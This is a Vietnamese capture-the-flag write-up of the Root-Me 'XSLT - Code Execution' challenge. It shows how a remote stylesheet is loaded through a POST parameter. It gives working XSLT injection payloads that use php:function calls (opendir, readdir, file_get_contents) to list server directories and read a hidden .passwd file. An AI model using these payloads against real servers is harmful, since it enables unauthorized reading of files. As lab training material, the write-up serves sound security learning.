








# XSLT - Code Execution

**Tên challenge:** eXtensible Stylesheet Language Transformations

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)

**Tác giả challenge:** ghozt

**Mục tiêu challenge:** Find the vulnerability and exploit it to read the file .passwd in a subdirectory of the challenge tree.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng chuyển `Style` như sau:



Có 3 `Style` tương ứng từ `[1 -> 3]`, sau khi Click `Change style!` thì trang Web sẽ render theo `Style` đó:



Sau khi bắt lại gói tin trên BurpSuite thì ta thấy sẽ có 1 gói tin **POST** được gửi đi khi ta bấm vào button `Change style!`:



=> Từ gói tin trên, ta có thể thay đổi giá trị của parameter `xsl` ở phần Body.

Nhưng trước tiên thì file `XSL` hay `XSLT` là gì ?

**Trả lời:**
* `XSLT` là một công nghệ được sử dụng để chuyển đổi các tài liệu `XML` sang các định dạng khác nhau. Nói cách khác, bạn có thể hiểu nó có tác dụng giống như CSS đối với HTML vậy, nó có tác dụng làm cho nội dung file XML trở nên đẹp hơn khi được render.
* Trong `XSLT` cũng có hỗ trợ những hàm giúp ta thực thi Command OS, do đó nếu phía Server không kiểm tra kỹ input từ người dùng, có thể dẫn đến việc bị khai thác.

Quay lại với Challenge, đối với tham số `xsl` trong gói tin **POST** ở trên, ta tự hỏi liệu nếu giá trị `xsl` là 1 URL chứa nội dung `XSLT` thì liệu ứng dụng có lấy nội dung đó về và render ra không ?

**B2:** Ta thử nghiệm với giả thuyết trên bằng Edit nội dung trang Webhook của ta bằng 1 đoạn `XSLT` đơn giản như sau:
```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<html> 
<body>
  <h2>My CD Collection</h2>
  <table border="1">
    <tr bgcolor="#9acd32">
      <th style="text-align:left">Title</th>
      <th style="text-align:left">Artist</th>
    </tr>
    <xsl:for-each select="catalog/cd">
    <tr>
      <td><xsl:value-of select="title"/></td>
      <td><xsl:value-of select="artist"/></td>
    </tr>
    </xsl:for-each>
  </table>
</body>
</html>
</xsl:template>
</xsl:stylesheet>
```
Về cơ bản thì đoạn `XSLT` trên sẽ tạo ra bảng gồm 1 dòng với 2 cột chữ `Title` và `Artist` in đen và có nền là màu xanh lá cây:



Sau khi ta gửi URL chứa nội dung trên của ta lên Server thì nếu Server render ra nội dung tương tự trên thì nghĩa là Server đã xuất hiện lỗ hổng.



=> Kết quả là Website đã render nội dung `XSLT` của ta và từ đó ta có thể khai thác nâng cao hơn bằng các hàm Command để lấy `Flag`.

**B3:** Ta Edit lại nội dung trên Webhook thành payload sau:
```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('opendir','./')"/>
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
</xsl:template></xsl:stylesheet>
```
<u>**Giải thích:**</u>
* Cụ thể đoạn payload trên sẽ list ra các file hoặc thư mục có trong thư mục hiện tại `./` tương tự giống lệnh `ls ./` trong Linux vậy.
* Tuy nhiên khác ở chỗ là function `readdir`, cụ thể là nếu trong thư mục hiện tại có 10 file thì ta phải có tương ứng bấy nhiêu dòng `readdir`. Giả sử ta chỉ `readdir` có 5 dòng thì nó chỉ trả về đúng 5 file thôi. Do đó, bạn nên dùng `readdir` nhiều nhất có thể vì nếu `readdir` nhiều hơn số lượng file hoặc thư mục có trong thư mục hiện tại thì nó sẽ trả về `False` sau khi nó duyệt qua file cuối cùng thôi.

Sau khi gửi URL Webhook lên Server thì ta sẽ nhận được response sau:



Tiếp đến, ta sẽ thử list ra các file có trong thư mục `.6ff3200bee785801f420fba826ffcdee` để xem liệu có file `.passwd` không, thông qua payload sau:
```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('opendir','./.6ff3200bee785801f420fba826ffcdee')"/>
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
</xsl:template></xsl:stylesheet>
```



=> Ta đã tìm thấy file `.passwd`.

**B4:** Ta sẽ đọc file `.passwd` thông qua payload:
```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('file_get_contents','./.6ff3200bee785801f420fba826ffcdee/.passwd')"/>
</xsl:template></xsl:stylesheet>
```


=> Ta đã lấy được `Flag`.

<u>**Đọc thêm:**</u> https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations